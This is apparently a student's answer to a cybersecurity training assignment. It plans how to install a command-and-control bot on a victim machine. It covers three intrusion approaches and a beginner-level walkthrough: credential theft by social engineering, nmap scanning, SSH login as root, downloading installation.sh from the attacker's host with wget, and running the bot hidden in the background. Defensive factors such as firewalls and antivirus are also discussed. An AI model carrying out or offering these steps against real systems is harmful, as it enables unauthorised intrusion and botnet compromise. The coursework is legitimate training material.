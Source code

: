 Create a software installation plan for the bot. It must:

outline THREE installation approaches for installation of the bot (approximately 100 words each)
1. Using social engineering and obtain an ssh session to install the bot
    - Perform an social engineering attack to obtain the credential from the victim. After getting the credential, we will ssh into the victim system. Setting up the script file at a server and download the script file at the ssh terminal of the victim machine. Run the script file will perform necessary step such as download bot, chmod the file and run the bot.
2. Provide a link which will download the file into the computer and run the script
    - Firstly find a game or software which the target would install to use. Intergrate the script file into the installation file and trick the user into download the file. When the user install the software would trigger the script which will download the bot file and install into the machine and run on background.
3. Search for an exploit to actually get the user credential and install the bots
    - Assume that the victim machine is vulnerable, we will find an exploit which will provide us with a shell of root access. Later on, we will manually insert all the necessary file such as downloading the bot and make it into a system file which will not be show normally. Then run the bot ourself and make it a background process so that it will not be notice.

determine ONE installation method to be used and create an ordered list of installation steps that a person with no technical expertise could follow (200 - 400 words)

The installation method that will be use the the 1st approacher where we will use social engineering and obtain an ssh session to install the bot. There is some minor point to be noted that social engineering may be consider legal in some case but unethical to perform it. Before we perform the installation, we will assume that the user already have the bot script file, the bot command server script, the installation script ready which do not need to change anything as well as the ip address or host name of the target.

Step to perform the installation of the bot:

Step 1: Firstly you need to identify the victim that you are targeting as well as which system you are targeting.
Step 2: Social engineering such as shoulder sniffing, man in the middle attack or other method to get username and password.
(Step 2 required soft skill as well as some basic technical skill depending on which technique you choose however in our following step we assume that the user already have the credential of the victim system)
Step 3: Open up the machine or computer that you would use to connect to the victim.
Step 4: Open up a terminal in the computer.
Step 5: Navigate to the folder that all the file already prepare and run the command of `python3 -m SimpleHTTPServer 9999` which will run a server for your file to be download
Step 6: Open up one more terminal, run `ifconfig` and find your own ip-address because it will be use later on. After that, run `./server_filename` in the folder where all the file located to run the server for the bot.
Step 7: Open up another terminal and run the ssh -h command to check if the package is install in the machine. If not you would need to install using `apt-get install ssh` in ubuntu machine or other have to research online. (The following step assume that all our user is using kali which have ssh come preinstalled) 
Step 8: Run `nmap IP-ADDRESS -p 22` in the terminal where the IP-ADDRESS is the ip address of the victim or hostname you are targeting
Step 9: When reading the report, if result say that port 22 is closed then just GIVE UP. (However we assume that victim already have ssh install) But if the ssh port or port 22 is open means that we can connect into the system.
Step 10: Run `ssh USER@IP-ADDRESS` where USER is the name of the target or try root and IP-ADDRESS is the target ip address. Assume the ip-address is 192.168.152.131 then the command will be `ssh root@192.168.152.131`
Step 11: When you run it will prompt for the password for the user root. Enter the password you found or the password for the user you found.
Step 12: Congratulation, you are now in the victim machine. You will need to navigate to the tmp folder with `cd /tmp/` and enter then enter the `pwd` command to check if you are at the tmp folder.
Step 13: Run the command `wget http://10.1.6.123/installation.sh` command to download the file into the machine assume that the ip address that you got from step 5 is 10.1.6.123
Step 14: step 13 will download a file from your machine to victim machine which if you run `ls` you will find the file is in there. Run the `chmod +x installation.sh` to give access for the file so that it can be execute.
Step 15: run the command of `./installation.sh` and it will download some file and start running the bot in the background.
Lastly: Run `ps aux | grep bot.py` you will see there is one process where the bot is running. (Notes: bot.py is the name of the file and can be depend on what file you have name it)

list the requirements for the client and server machines to run the bot (100 - 200 words)
- Server server 
    - require ssh capabilities
    - python3 installed
- Client Server
    - Have openSSH installed and port 22 is configure to be open by the firewall and allow connection
    - Have python3 package install in the machine
    - Have wget capabilities to download file into the machine
    - Have the access right to chmod for the file and run the file

outline of how at least TWO security features in a network can affect the installation of the bot (150 words each)
- Firewall
    - Firewall are configuration for the network incoming and outgoing connection. By default firewall do not allow incoming connection from many of the port. However firewall are more lenient when come to outgoing connection. If the system have been configure to close all port connection and do not allow any outgoing or incoming connection other than from the specify port then the bot installation and running would not be able to perfrom. Other than that, if the firewall do not allow ssh from unknown ip address which have not been configure into the configuration file mean that attacker would not be able to even ssh into the system.

- Access control
    - SSH might be configure to not allow direct root access using ssh connection. This may cause our connection to the system using only user acess grant and if the user do not have sudo right then it would not be able to chmod for the file because access control right may configure to disable most of the access right to secure the network. If the access right is deny, it would mean that we will not be able to install the bot into the machine.

Review the security requirements for the software installation plan you created in Instruction Step 1 for the bot host machine & control server, and determine if the client and server meet the requirements for installation by explaining how features of the client system may impact the operation of the bot (400 words).

Based on the installation method chosen, we assume that the credential that we obtain is only having normal user access and we will not be able to modify any software which required root access. Using the credential we obtain and by going through the ssh method step mention at question 1, we were able to ssh into the client machine. By ssh into the machine and download the installation script show that the client machine network security such as firewall do not block download from unknown host or ip which increase the chance of executing the bot. After running the installation script, it would install the bot and automatically run the bot on the background. WHen the bot runs, it should show the connection made at the server side and would also send back the command to the bots. We can assume that the requirement for both the client and server met. However, it doesn't mean that everything would be fine because there my be security protection at the client machine.

One of the potential client system feature would be anti-virus or anti-malware that detect the bot that is being installed or running in the background. Unless the bot is custom-made with unknown signature or pattern, the bot would be easily detected based on the signature or known pattern by the anti-malware which then the anti-malware would block the installation unless specify the bot being safe or modify using root access. Given that the nature of anti-malware would detect action that would harm the machine which if the command is just read file it might be detected however then the application execute the unistall or write function it may catch upon the command and block the access for the bot software. 

Other than that, a user level access right might not allow for running program on python(in our case our bot is programmed in python) where the installation may work but the program may not run. It may be that the root admin may have disable the user to run unwanted program which may cause harm to their system or simply the user have to right to access python. In some case where if the user is an accountant which only use application or software develop in C or other language, then it might not have any access right to run python program. Beside not having access right to run python, the user may not even have right to execute any program or install any program execpt the program allow by the administrative team or user have to sudo access. 

Last but not least, the system may have a monitoring system which will log the system activity log file and storing it for analysing. When there is program install by someone other than admin or some programing running on the background would immidiately being detected by the monitoring team and report to the security team. This may cause our bot to be stop or remove from the system.


Create an installation script for the bot.

Create an uninstall script for the bot.

Arrange for your trainer to observe you:

testing your installation script in a test and production environment
testing your uninstall script in a test environment
configuring and testing a server to be aligned with an incident response plan process in terms of allocation of user accounts and privileges
deploying a database from a test environment to a production environment
specifying an appropriate configuration string for the database


Write a log which documents a security incident which you resolved by implementing your incident response plan. In the log you must (200 - 300 words):

describe the nature of the security incident
outline the measures taken to deal with the security incident
outline any future steps required to handle the security incident and sign off on these future steps
